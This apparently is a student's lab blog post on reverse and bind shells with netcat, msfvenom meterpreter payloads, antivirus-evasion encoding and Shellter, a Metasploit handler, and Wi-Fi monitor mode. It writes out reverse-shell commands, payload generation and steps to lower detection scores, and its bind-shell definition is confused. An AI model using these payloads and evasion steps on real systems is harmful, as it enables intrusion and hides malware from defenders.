 ```yaml
---
title: "Part 5 Understanding Reverse and Binding Shell"
date: 2024-05-22T09:09:02Z
draft: false
categories: ["Walkthrough"]
tags: ["Networking", "Shells"]
series: ["Ultimate-Kali-Linux-Book"]
series_order: 5
---
```


Hey it's me again  , I know you've been missing me and I have to same to you as well. Time has changed in my life for the better, I've met the competitive hacking team at another close by University and would love to learn from them as they're seniors in the field of CTF. I want to be by their side and learn from them to grow as a person and a professional penetration tester.

I've also found a job at a college which has amazing architecture, truly wonderful to look at. I will use the funds to help me with travels for Uni, lunch and future projects that you might see on this blog so stay tuned. (^・ω・^ )

Anyways, enough of a life update lets talk Networking and Shells! I will be exploring **Netcat** to create connections between my Kali machine and a victim Windows machine. Will also be going over **Anti-malware evasion techniques** to reduce Virustotal scores when scanning payloads created using scripts. And finally test out my wireless adapter that I got for cheap for packet injection and Monitor mode compatibility with **Aireplay-ng**. 

This ones a short one guys so I'll give it my best, I know I'm only using scripts and pre-made tools yet and not reversing engineering yet but put a bit of trust in me. I have a small flame inside of me, waiting for small chips of wood to be thrown inside to grow bigger into a roaring flame to not only light up my path in dark times but also for others I care about around me.

## 1. Fundamentals of Bind and Reverse Shells
A **reverse shell** is a one way connection from the victim -> attacker, from there they would be able to perform remote code execution or monitor for the victims behaviour, keystrokes, screen sharing and more.

A **binding shell** uses inbound firewall rules meaning that the connection originates from the victim -> attacker.

### 1.2 Creating a Reverse & Binding Shell with Netcat
There is a Windows version of Netcat on Kali at this directory `/usr/share/windows-binaries` which will be uploaded to the victims computer which when executed will open the shell. 

1. Get the file onto the victims machine, for this example we will be connected on the same network and I will be using a Python server to transfer, `cd` into windows-binaries and execute `python3 -m http.server 8080`
2. On victims machine in a browser: `<kaliIP>:8080`
![Python-server-nc.exe](<Python-server-nc.exe.png>)
3. Click on `nc.exe` as the victim and close Python web server 
4. Execute the following in a terminal on kali `nc -nlvp 1234` on bob's `nc -nv <kaliIP> 1234 -e cmd.exe`
5. To create a bind shell on kali `nc -nlvp 1234 -e /bin/bash` and on bob's `nc -nv <kaliIP> 1234`, this will allow bob to send commands to kali

ik this above isn't what I've talked about as I've lost the gif for Netcat but here is a payload created by MSF using vnc.exe ^^

## 2. Anti-malware Evasion Techniques
Most Anti malware work in 3 main categories:
- **Signature-base detection:** Anti-malware software will use a database of known malicious code and compare it to scans
- **Behavioural-based detection:** This is where the actions taken by malware is monitored by being placed in a Virtual environment for changes in the system 
- **Heuristic-based:** This is where the anti-malware software uses rules and algorithms to determine if malware has been detected

### 2.1 Encoding Payloads with MSFvenom
1. Using the reverse shell from the Netcat shell executable I will be using MSFvenom which allows for custom payload creation via scripts.
```bash
msfvenom -h                # Help menu
msfvenom --list payloads   # Available Payload list
# Create first payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o payload.exe
```
![msfvenom-payload-1](<msfvenom-payload-1.png>)
2. Putting the `payload.exe` file into https://www.virustotal.com will give out these detection ratings:
![msfvenom-virtustotal-payload-1](<msfvenom-virtustotal-payload-1.png>)
{{< alert icon="triangle-exclamation" cardColor="#fcf0e8" textColor="#eb974c" iconColor="#eb974c" >}}
Virustotal and other mainstream web scanners will distribute the hash of the payload:
{{< /alert >}}
A way to combat my malware being known is by using a no distribution scanner.
3. Using the highest rated encoder and iterating the encoding 9 times:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o payload2.exe -e x86/shikata_ga_nai -i 9
```
![msfvenom-virtustotal-payload-2](<msfvenom-virtustotal-payload-2.png>)
Doesn't even lower it by much 😭😭

4. Giving it a executable to encode with the template to mask out anti-malware signature detection
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o payload2.exe -e x86/shikata_ga_nai -i 9 -x /etc/share/windows-binaries/whoami.exe
```

### 2.2 Using Shellter to reduce detection
- Go through the [Wine installation guide](https://wiki.winehq.org/Download) with `wine32` and install Shellter with `sudo apt install shellter`

![Shellter-Encoding-Demo](/images/Shellter-Encoding-Demo.gif)

![Shellter-virustotal-payload-1](<Shellter-virustotal-payload-1.png>)

### 2.3 Using MSF to Send a Reverse Shell Attack
1. Will need to transfer file same method as transferring ncat in part 1.2
2. Will be using metasploitable to listen to the payload 
```bash
$ msfconsole
msf6 > use exploit/multi/handler
msf6 (multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 (multi/handler) > set LHOST <attacker IP>
msf6 (multi/handler) > set AutoRunScript post/windows/manage/migrate
msf6 (multi/handler) > exploit
```

![Reverse-shell-demo](/images/Reverse-shell-demo.gif)
(Right-click > Open Image in New Tab)
## 3. Wireless Adaptor Setup
For the final part of this section I will be testing out my wireless adapter which was bought off Aliexpress a long time ago and just resurfaced for this which I'm happy about. 

![Wireless adapter](Wireless-adapter.jpg)


### 3.1 Different types of Adaptor Modes
There are several modes available for a network adaptor to switch to which all have their separate purposes:
- **Managed mode:** The default type which will allow connections to other AP
- **Monitor mode:** This mode will allow for wireless network scanning and packet injection 
- **Repeater mode:** Echo's a WiFi connection like an extender
- **Master mode:** Allow Linux-based system to operate as APs' 

### 3.2 Changing between Managed and Monitor Mode
There are two main methods to enable monitor and switching back to managed mode: 
- **Manually:** 
```
$ ifconfig wlan0 down
$ iwconfig mode monitor wlan0 
$ ifconfig wlan0 up
```
- **Using airmon-ng:** 
```
$ airmon-ng check kill 
$ airmon-ng start wlan0 
$ airmon-ng stop wlan0
```

### 3.3 Testing for Packet Injection Compatibility
Once in monitor mode I can see if the adaptor has packet injection capabilities with `aireplay-ng -9 wlan0`

![packet-injection-testing](<packet-injection-testing.png>)

Well this pretty much covers everything for the fifth part of ‘The Ultimate Kali Linux Book’ by Glen D. Singh. This was a short one but I learned a bit on the different shell types, using encoders to mask out known exploits by anti-malware software and testing out my wireless adapter for later testing. Glad you had a good read for this one, hope you're doing OK wherever you are. Bye. {{< responsive-img src="Cat-with-heart-excited.gif" alt="alt text" width="30px" height="30px" >}}
